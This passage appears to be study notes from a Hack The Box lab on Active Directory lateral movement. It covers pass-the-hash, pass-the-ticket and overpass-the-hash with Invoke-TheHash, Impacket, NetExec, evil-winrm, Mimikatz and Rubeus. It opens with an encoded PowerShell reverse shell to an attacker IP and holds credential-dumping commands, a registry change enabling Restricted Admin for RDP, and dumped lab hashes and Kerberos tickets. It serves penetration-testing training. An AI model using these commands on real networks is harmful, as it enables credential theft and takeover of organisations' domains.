PS c:\tools\Invoke-TheHash> Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMwAzACIALAA4ADAAMAAxACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=="

[+] Command executed with process id 520 on DC01
```

#### PtH with Impacket

Impacket has several tools you can use for different operations such as command execution and credential dumping, enumeration, etc.

Command execution using PsExec:

```bash
d41y@htb[/htb]$ impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.129.201.126.....
[*] Found writable share ADMIN$
[*] Uploading file SLUBMRXK.exe
[*] Opening SVCManager on 10.129.201.126.....
[*] Creating service AdzX on 10.129.201.126.....
[*] Starting service AdzX.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19044.1415]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

#### PtH with NetExec

NetExec is a post-exploitation tool that helps automate assessing the security of large AD networks. You can use NetExec to try to authenticate to some or all hosts in a network looking for one host where you can authenticate successfully as a local admin.

```bash
d41y@htb[/htb]# netexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453

SMB         172.16.1.10   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:.) (signing:True) (SMBv1:False)
SMB         172.16.1.10   445    DC01             [-] .\Administrator:30B3783CE2ABF1AF70F77D0660CF3453 STATUS_LOGON_FAILURE 
SMB         172.16.1.5    445    MS01             [*] Windows 10.0 Build 19041 x64 (name:MS01) (domain:.) (signing:False) (SMBv1:False)
SMB         172.16.1.5    445    MS01             [+] .\Administrator 30B3783CE2ABF1AF70F77D0660CF3453 (Pwn3d!)
```

If you want to perform the same actions but attempt to authenticate to each host in a subnet using the local administrator password hash, you could add ```--local-auth``` to you command. This method is helpful if you obtain a local administrator hash by dumping the local SAM database on one host and want to check how many other hosts you can access due to local admin password reuse.

You can use the option ```-x``` to execute commands. It is common to see password reuse against many hosts in the same subnet. Organizations will often use gold images with the same local admin password or set this password the same across multiple hosts for ease of administration.

Command execution:

```bash
d41y@htb[/htb]# netexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami

SMB         10.129.201.126  445    MS01            [*] Windows 10 Enterprise 10240 x64 (name:MS01) (domain:.) (signing:False) (SMBv1:True)
SMB         10.129.201.126  445    MS01            [+] .\Administrator 30B3783CE2ABF1AF70F77D0660CF3453 (Pwn3d!)
SMB         10.129.201.126  445    MS01            [+] Executed command 
SMB         10.129.201.126  445    MS01            MS01\administrator
```

#### PtH with evil-winrm

Evil-WinRM is another tool you can use to authenticate using the PtH attack with PowerShell remoting. If SMB is blocked or you don't have administrative rights, you can use this alternative protocol to connect to the target machine.

```bash
d41y@htb[/htb]$ evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

When using a domain account, you need to include the domain name (_administrator@inlanefreight.htb_).

#### PtH with RDP

You can perform and RDP PtH attack to gain GUI access to the target system using tools like xfreerdp.

There a few caveats to this attack:

- **Restricted Admin Mode**, which is disabled by default, should be enabled on the target host; otherwise, you will be presented with the following error:



This can be enabled by adding a new registry key ```DisableRestrictedAdmin``` under ```HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa``` with the value of 0. It can be done using the following command:

```
c:\tools> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

Once the registry key is added, you can use xfreerdp with the option ```/pth``` to gain RDP access:

```bash
d41y@htb[/htb]$ xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B

[15:38:26:999] [94965:94966] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state
[15:38:26:999] [94965:94966] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr
...snip...
[15:38:26:352] [94965:94966] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[15:38:26:352] [94965:94966] [ERROR][com.freerdp.crypto] - @           WARNING: CERTIFICATE NAME MISMATCH!           @
[15:38:26:352] [94965:94966] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
...SNIP...
```

#### UAC Limits PtH for Local Accounts

UAC (_User Account Control_) limits local users' ability to perform remote administration operations. When the registry key ```HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy``` is set to 0, it means that the built-in local admin account is the only local account allowed to perform remote administration tasks. Setting it to 1 allows the other local admins as well.

### Pass the Ticket (_PtT_) from Windows

Another method for moving laterally in an AD environment is called a Pass the Ticket attack. In this attack, you use a stolen Kerberos ticket to move laterally instead of an NTLM password hash.

#### Kerberos Refresher

The Kerberos authentication system is ticket-based. The central idea behind Kerberos is not to give an account password to every service you use. Instead, Kerberos keeps all tickets on your local system and presents each service only the specific ticket for that service, preventing a ticket from being used for another purpose.

- The Ticket Grantint Ticket (_TGT_) is the first ticket obtained on a Kerberos system. The TGT permits the client to obtain additional Kerberos tickets or TGS.
- The Ticket Grating Service (_TGS_) is requested by users who want to use a service. These tickets allow services to verify the user's identity.

When a user requests a TGT, they must authenticate to the DC by encrypting the current timestamp with their password hash. Once the DC validates the user's identity, it sends the user a TGT for future requests. Once the user has their ticket, they do not have to prove who they are with their password.

If the user wants to connect to an MSSQL database, it will request a TGS to the Key Distribution Center (_KDC_), presenting its TGT. Then it will give the TGS to the MSSQL database server for authentication.

#### Attack

You need a valid Kerberos ticket to perform a PtP attack. It can be:

- Service Ticket to allow access to a particular resource.
- Ticket Granting Ticket, which you use to request service tickets to access any resource the user has privileges.

#### Harvesting Kerberos Tickets from Windows

On Windows, tickets are processed and stored by the LSASS process. Therefore, to get a ticket from a Windows system, you must communicate with LSASS and request it. As a non-administrative user, you can only get your tickets, but as a local administrator, you can collect everything.

You can harvest all tickets from a system using the Mimikatz module ```sekurlsa::tickets /export```. The result is a list of files with the extension ```.kirbi```, which contain the tickets.

```
c:\tools> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug  6 2020 14:53:43
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::tickets /export

Authentication Id : 0 ; 329278 (00000000:0005063e)
Session           : Network from 0
User Name         : DC01$
Domain            : HTB
Logon Server      : (null)
Logon Time        : 7/12/2022 9:39:55 AM
SID               : S-1-5-18

         * Username : DC01$
         * Domain   : inlanefreight.htb
         * Password : (null)
         
        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?
         [00000000]
           Start/End/MaxRenew: 7/12/2022 9:39:55 AM ; 7/12/2022 7:39:54 PM ;
           Service Name (02) : LDAP ; DC01.inlanefreight.htb ; inlanefreight.htb ; @ inlanefreight.htb
           Target Name  (--) : @ inlanefreight.htb
           Client Name  (01) : DC01$ ; @ inlanefreight.htb
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             31cfa427a01e10f6e09492f2e8ddf7f74c79a5ef6b725569e19d614a35a69c07
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 5        [...]
           * Saved to file [0;5063e]-1-0-40a50000-DC01$@LDAP-DC01.inlanefreight.htb.kirbi !

        Group 2 - Ticket Granting Ticket

mimikatz # exit
Bye!

c:\tools> dir *.kirbi

Directory: c:\tools

Mode                LastWriteTime         Length Name
----                -------------         ------ ----

<SNIP>

-a----        7/12/2022   9:44 AM           1445 [0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
-a----        7/12/2022   9:44 AM           1565 [0;3e7]-0-2-40a50000-DC01$@cifs-DC01.inlanefreight.htb.kirbi
```

The tickets that end with ```$``` correspond to the computer account, which needs a ticket to interact with the AD. User tickets have the user's name, followed by an ```@``` that separates the service name and the domain, for example:

```
[randomvalue]-username@service-domain.local.kirbi
```

You can also export tickets using Rubeus and the option. This option can be used to dump all tickets. Rubeus dump, instead of giving you a file, will print the ticket encoded in Base64 format. You are adding the option ```/nowrap``` for easier copy-paste.

```
c:\tools> Rubeus.exe dump /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0


Action: Dump Kerberos Ticket Data (All Users)

[*] Current LUID    : 0x6c680
    ServiceName           :  krbtgt/inlanefreight.htb
    ServiceRealm          :  inlanefreight.htb
    UserName              :  DC01$
    UserRealm             :  inlanefreight.htb
    StartTime             :  7/12/2022 9:39:54 AM
    EndTime               :  7/12/2022 7:39:54 PM
    RenewTill             :  7/19/2022 9:39:54 AM
    Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
    KeyType               :  aes256_cts_hmac_sha1
    Base64(key)           :  KWBMpM4BjenjTniwH0xw8FhvbFSf+SBVZJJcWgUKi3w=
    Base64EncodedTicket   :

doIE1jCCBNKgAwIBBaEDAgEWooID7TCCA+lhggPlMIID4aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB0hUQi5DT02jggOvMIIDq6ADAgESoQMCAQKiggOdBIIDmUE/AWlM6VlpGv+Gfvn6bHXrpRjRbsgcw9beSqS2ihO+FY/2Rr0g0iHowOYOgn7EBV3JYEDTNZS2ErKNLVOh0/TczLexQk+bKTMh55oNNQDVzmarvzByKYC0XRTjb1jPuVz4exraxGEBTgJYUunCy/R5agIa6xuuGUvXL+6AbHLvMb+ObdU7Dyn9eXruBscIBX5k3D3S5sNuEnm1sHVsGuDBAN5Ko6kZQRTx22A+lZZD12ymv9rh8S41z0+pfINdXx/VQAxYRL5QKdjbndchgpJro4mdzuEiu8wYOxbpJdzMANSSQiep+wOTUMgimcHCCCrhXdyR7VQoRjjdmTrKbPVGltBOAWQOrFs6YK1OdxBles1GEibRnaoT9qwEmXOa4ICzhjHgph36TQIwoRC+zjPMZl9lf+qtpuOQK86aG7Uwv7eyxwSa1/H0mi5B+un2xKaRmj/mZHXPdT7B5Ruwct93F2zQQ1mKIH0qLZO1Zv/G0IrycXxoE5MxMLERhbPl4Vx1XZGJk2a3m8BmsSZJt/++rw7YE/vmQiW6FZBO/2uzMgPJK9xI8kaJvTOmfJQwVlJslsjY2RAVGly1B0Y80UjeN8iVmKCk3Jvz4QUCLK2zZPWKCn+qMTtvXBqx80VH1hyS8FwU3oh90IqNS1VFbDjZdEQpBGCE/mrbQ2E/rGDKyGvIZfCo7t+kuaCivnY8TTPFszVMKTDSZ2WhFtO2fipId+shPjk3RLI89BT4+TDzGYKU2ipkXm5cEUnNis4znYVjGSIKhtrHltnBO3d1pw402xVJ5lbT+yJpzcEc5N7xBkymYLHAbM9DnDpJ963RN/0FcZDusDdorHA1DxNUCHQgvK17iametKsz6Vgw0zVySsPp/wZ/tssglp5UU6in1Bq91hA2c35l8M1oGkCqiQrfY8x3GNpMPixwBdd2OU1xwn/gaon2fpWEPFzKgDRtKe1FfTjoEySGr38QSs1+JkVk0HTRUbx9Nnq6w3W+D1p+FSCRZyCF/H1ahT9o0IRkFiOj0Cud5wyyEDom08wOmgwxK0D/0aisBTRzmZrSfG7Kjm9/yNmLB5va1yD3IyFiMreZZ2WRpNyK0G6L4H7NBZPcxIgE/Cxx/KduYTPnBDvwb6uUDMcZR83lVAQ5NyHHaHUOjoWsawHraI4uYgmCqXYN7yYmJPKNDI290GMbn1zIPSSL82V3hRbOO8CZNP/f64haRlR63GJBGaOB1DCB0aADAgEAooHJBIHGfYHDMIHAoIG9MIG6MIG3oCswKaADAgESoSIEIClgTKTOAY3p4054sB9McPBYb2xUn/kgVWSSXFoFCot8oQkbB0hUQi5DT02iEjAQoAMCAQGhCTAHGwVEQzAxJKMHAwUAYKEAAKURGA8yMDIyMDcxMjEzMzk1NFqmERgPMjAyMjA3MTIyMzM5NTRapxEYDzIwMjIwNzE5MTMzOTU0WqgJGwdIVEIuQ09NqRwwGqADAgECoRMwERsGa3JidGd0GwdIVEIuQ09N

  UserName                 : plaintext
  Domain                   : HTB
  LogonId                  : 0x6c680
  UserSID                  : S-1-5-21-228825152-3134732153-3833540767-1107
  AuthenticationPackage    : Kerberos
  LogonType                : Interactive
  LogonTime                : 7/12/2022 9:42:15 AM
  LogonServer              : DC01
  LogonServerDNSDomain     : inlanefreight.htb
  UserPrincipalName        : plaintext@inlanefreight.htb


    ServiceName           :  krbtgt/inlanefreight.htb
    ServiceRealm          :  inlanefreight.htb
    UserName              :  plaintext
    UserRealm             :  inlanefreight.htb
    StartTime             :  7/12/2022 9:42:15 AM
    EndTime               :  7/12/2022 7:42:15 PM
    RenewTill             :  7/19/2022 9:42:15 AM
    Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
    KeyType               :  aes256_cts_hmac_sha1
    Base64(key)           :  2NN3wdC4FfpQunUUgK+MZO8f20xtXF0dbmIagWP0Uu0=
    Base64EncodedTicket   :

doIE9jCCBPKgAwIBBaEDAgEWooIECTCCBAVhggQBMIID/aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB0hUQi5DT02jggPLMIIDx6ADAgESoQMCAQKiggO5BIIDtc6ptErl3sAxJsqVTkV84/IcqkpopGPYMWzPcXaZgPK9hL0579FGJEBXX+Ae90rOcpbrbErMr52WEVa/E2vVsf37546ScP0+9LLgwOAoLLkmXAUqP4zJw47nFjbZQ3PHs+vt6LI1UnGZoaUNcn1xI7VasrDoFakj/ZH+GZ7EjgpBQFDZy0acNL8cK0AIBIe8fBF5K7gDPQugXaB6diwoVzaO/E/p8m3t35CR1PqutI5SiPUNim0s/snipaQnyuAZzOqFmhwPPujdwOtm1jvrmKV1zKcEo2CrMb5xmdoVkSn4L6AlX328K0+OUILS5GOe2gX6Tv1zw1F9ANtEZF6FfUk9A6E0dc/OznzApNlRqnJ0dq45mD643HbewZTV8YKS/lUovZ6WsjsyOy6UGKj+qF8WsOK1YsO0rW4ebWJOnrtZoJXryXYDf+mZ43yKcS10etHsq1B2/XejadVr1ZY7HKoZKi3gOx3ghk8foGPfWE6kLmwWnT16COWVI69D9pnxjHVXKbB5BpQWAFUtEGNlj7zzWTPEtZMVGeTQOZ0FfWPRS+EgLmxUc47GSVON7jhOTx3KJDmE7WHGsYzkWtKFxKEWMNxIC03P7r9seEo5RjS/WLant4FCPI+0S/tasTp6GGP30lbZT31WQER49KmSC75jnfT/9lXMVPHsA3VGG2uwGXbq1H8UkiR0ltyD99zDVTmYZ1aP4y63F3Av9cg3dTnz60hNb7H+AFtfCjHGWdwpf9HZ0u0HlBHSA7pYADoJ9+ioDghL+cqzPn96VyDcqbauwX/FqC/udT+cgmkYFzSIzDhZv6EQmjUL4b2DFL/Mh8BfHnFCHLJdAVRdHlLEEl1MdK9/089O06kD3qlE6s4hewHwqDy39ORxAHHQBFPU211nhuU4Jofb97d7tYxn8f8c5WxZmk1nPILyAI8u9z0nbOVbdZdNtBg5sEX+IRYyY7o0z9hWJXpDPuk0ksDgDckPWtFvVqX6Cd05yP2OdbNEeWns9JV2D5zdS7Q8UMhVo7z4GlFhT/eOopfPc0bxLoOv7y4fvwhkFh/9LfKu6MLFneNff0Duzjv9DQOFd1oGEnA4MblzOcBscoH7CuscQQ8F5xUCf72BVY5mShq8S89FG9GtYotmEUe/j+Zk6QlGYVGcnNcDxIRRuyI1qJZxCLzKnL1xcKBF4RblLcUtkYDT+mZlCSvwWgpieq1VpQg42Cjhxz/+xVW4Vm7cBwpMc77Yd1+QFv0wBAq5BHvPJI4hCVPs7QejgdgwgdWgAwIBAKKBzQSByn2BxzCBxKCBwTCBvjCBu6ArMCmgAwIBEqEiBCDY03fB0LgV+lC6dRSAr4xk7x/bTG1cXR1uYhqBY/RS7aEJGwdIVEIuQ09NohYwFKADAgEBoQ0wCxsJcGxhaW50ZXh0owcDBQBA4QAApREYDzIwMjIwNzEyMTM0MjE1WqYRGA8yMDIyMDcxMjIzNDIxNVqnERgPMjAyMjA3MTkxMzQyMTVaqAkbB0hUQi5DT02pHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB0hUQi5DT00=
<SNIP>
```

This is a common way to retrieve tickets from a computer. Another advantage of abusing Kerberos tickets is the ability to forge your own tickets.

#### Pass the Key aka OverPass the Hash

The traditional PtH technique involves reusing an NTLM password hash that doesn't touch Kerberos. The PtK aka OverPass the Hash approach converts a hash/key for a domain-joined user into full TGT.

To forge your tickets, you need to have the user's hash; you can use Mimikatz to dump all users Kerberos encryption keys using the module ```sekurlsa::ekeys```. This module will enumerate all key types present for the Kerberos package.

```
c:\tools> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug  6 2020 14:53:43
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::ekeys

<SNIP>

Authentication Id : 0 ; 444066 (00000000:0006c6a2)
Session           : Interactive from 1
User Name         : plaintext
Domain            : HTB
Logon Server      : DC01
Logon Time        : 7/12/2022 9:42:15 AM
SID               : S-1-5-21-228825152-3134732153-3833540767-1107

         * Username : plaintext
         * Domain   : inlanefreight.htb
         * Password : (null)
         * Key List :
           aes256_hmac       b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60
           rc4_hmac_nt       3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_hmac_old      3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_md4           3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_hmac_nt_exp   3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_hmac_old_exp  3f74aa8f08f712f09cd5177b5c1ce50f
<SNIP>
```

Now that you have access to the AES256_HMAC and RC4_HMAC keys, you can perform the PtK aka OverPass the Hash attack using Mimikatz and Rubeus.

```
c:\tools> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug  6 2020 14:53:43
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f

user    : plaintext
domain  : inlanefreight.htb
program : cmd.exe
impers. : no
NTLM    : 3f74aa8f08f712f09cd5177b5c1ce50f
  |  PID  1128
  |  TID  3268
  |  LSA Process is now R/W
  |  LUID 0 ; 3414364 (00000000:0034195c)
  \_ msv1_0   - data copy @ 000001C7DBC0B630 : OK !
  \_ kerberos - data copy @ 000001C7E20EE578
   \_ aes256_hmac       -> null
   \_ aes128_hmac       -> null
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 000001C7E2136BC8 (32) -> null
```

This will create a new cmd.exe window that you can use to request access to any service you want in the context of the target user.

To forge a ticket using Rubeus, you can use the module ```asktgt``` with the username, domain, and hash which can be ```/rc4```, ```/aes128```, ```/aes256```, or ```/des```.

```
c:\tools> Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 3f74aa8f08f712f09cd5177b5c1ce50f
[*] Building AS-REQ (w/ preauth) for: 'inlanefreight.htb\plaintext'
[+] TGT request successful!
[*] Base64(ticket.kirbi):

doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/LSsa2xrdJJir1eVugDFCoGFT2hDcYcpRdifXw67WofDM6Z6utsha+4bL0z6QN+tdpPlNQFwjuWmBrZtpS9TcCblotYvDHa0aLVsroW/fqXJ4KIV2tVfbVIDJvPkgdNAbhp6NvlbzeakR1oO5RTm7wtRXeTirfo6C9Ap0HnctlHAd+Qnvo2jGUPP6GHIhdlaM+QShdJtzBEeY/xIrORiiylYcBvOoir8mFEzNpQgYADmbTmg+c7/NgNO8Qj4AjrbGjVf/QWLlGc7sH9+tARi/Gn0cGKDK481A0zz+9C5huC9ZoNJ/18rWfJEb4P2kjlgDI0/fauT5xN+3NlmFVv0FSC8/909pUnovy1KkQaMgXkbFjlxeheoPrP6S/TrEQ8xKMyrz9jqs3ENh//q738lxSo8J2rZmv1QHy+wmUKif4DUwPyb4AHgSgCCUUppIFB3UeKjqB5srqHR78YeAWgY7pgqKpKkEomy922BtNprk2iLV1cM0trZGSk6XJ/H+JuLHI5DkuhkjZQbb1kpMA2CAFkEwdL9zkfrsrdIBpwtaki8pvcBPOzAjXzB7MWvhyAQevHCT9y6iDEEvV7fsF/B5xHXiw3Ur3P0xuCS4K/Nf4GC5PIahivW3jkDWn3g/0nl1K9YYX7cfgXQH9/inPS0OF1doslQfT0VUHTzx8vG3H25vtc2mPrfIwfUzmReLuZH8GCvt4p2BAbHLKx6j/HPa4+YPmV0GyCv9iICucSwdNXK53Q8tPjpjROha4AGjaK50yY8lgknRA4dYl7+O2+j4K/lBWZHy+IPgt3TO7YFoPJIEuHtARqigF5UzG1S+mefTmqpuHmoq72KtidINHqi+GvsvALbmSBQaRUXsJW/Lf17WXNXmjeeQWemTxlysFs1uRw9JlPYsGkXFh3fQ2ngax7JrKiO1/zDNf6cvRpuygQRHMOo5bnWgB2E7hVmXm2BTimE7axWcmopbIkEi165VOy/M+pagrzZDLTiLQOP/X8D6G35+srSr4YBWX4524/Nx7rPFCggxIXEU4zq3Ln1KMT9H7efDh+h0yNSXMVqBSCZLx6h3Fm2vNPRDdDrq7uz5UbgqFoR2tgvEOSpeBG5twl4MSh6VA7LwFi2usqqXzuPgqySjA1nPuvfy0Nd14GrJFWo6eDWoOy2ruhAYtaAtYC6OByDCBxaADAgEAooG9BIG6fYG3MIG0oIGxMIGuMIGroBswGaADAgEXoRIEENEzis1B3YAUCjJPPsZjlduhCRsHSFRCLkNPTaIWMBSgAwIBAaENMAsbCXBsYWludGV4dKMHAwUAQOEAAKURGA8yMDIyMDcxMjE1MjgyNlqmERgPMjAyMjA3MTMwMTI4MjZapxEYDzIwMjIwNzE5MTUyODI2WqgJGwdIVEIuQ09NqRwwGqADAgECoRMwERsGa3JidGd0GwdodGIuY29t

  ServiceName           :  krbtgt/inlanefreight.htb
  ServiceRealm          :  inlanefreight.htb
  UserName              :  plaintext
  UserRealm             :  inlanefreight.htb
  StartTime             :  7/12/2022 11:28:26 AM
  EndTime               :  7/12/2022 9:28:26 PM
  RenewTill             :  7/19/2022 11:28:26 AM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  rc4_hmac
  Base64(key)           :  0TOKzUHdgBQKMk8+xmOV2w==
```

#### PtT

Now that you have some Kerberos tickets, you can use them to move laterally within an environment.

With Rubeus you performed an OverPass the Hash attack and retrieved the ticket in Base64 format. Instead, you could use the flag ```/ptt``` to submit the ticket to the current logon session.

```
c:\tools> Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 3f74aa8f08f712f09cd5177b5c1ce50f
[*] Building AS-REQ (w/ preauth) for: 'inlanefreight.htb\plaintext'
[+] TGT request successful!
[*] Base64(ticket.kirbi):

      doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKh
      EzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpcGX6rbUlYxOWeMmu/zb
      f7vGgDj/g+P5zzLbr+XTIPG0kI2WCOlAFCQqz84yQd6IRcEeGjG4YX/9ezJogYNtiLnY6YPkqlQaG1Nn
      pAQBZMIhs01EH62hJR7W5XN57Tm0OLF6OFPWAXncUNaM4/aeoAkLQHZurQlZFDtPrypkwNFQ0pI60NP2
      9H98JGtKKQ9PQWnMXY7Fc/5j1nXAMVj+Q5Uu5mKGTtqHnJcsjh6waE3Vnm77PMilL1OvH3Om1bXKNNan
      JNCgb4E9ms2XhO0XiOFv1h4P0MBEOmMJ9gHnsh4Yh1HyYkU+e0H7oywRqTcsIg1qadE+gIhTcR31M5mX
      5TkMCoPmyEIk2MpO8SwxdGYaye+lTZc55uW1Q8u8qrgHKZoKWk/M1DCvUR4v6dg114UEUhp7WwhbCEtg
      5jvfr4BJmcOhhKIUDxyYsT3k59RUzzx7PRmlpS0zNNxqHj33yAjm79ECEc+5k4bNZBpS2gJeITWfcQOp
      lQ08ZKfZw3R3TWxqca4eP9Xtqlqv9SK5kbbnuuWIPV2/QHi3deB2TFvQp9CSLuvkC+4oNVg3VVR4bQ1P
      fU0+SPvL80fP7ZbmJrMan1NzLqit2t7MPEImxum049nUbFNSH6D57RoPAaGvSHePEwbqIDTghCJMic2X
      c7YJeb7y7yTYofA4WXC2f1MfixEEBIqtk/drhqJAVXz/WY9r/sWWj6dw9eEhmj/tVpPG2o1WBuRFV72K
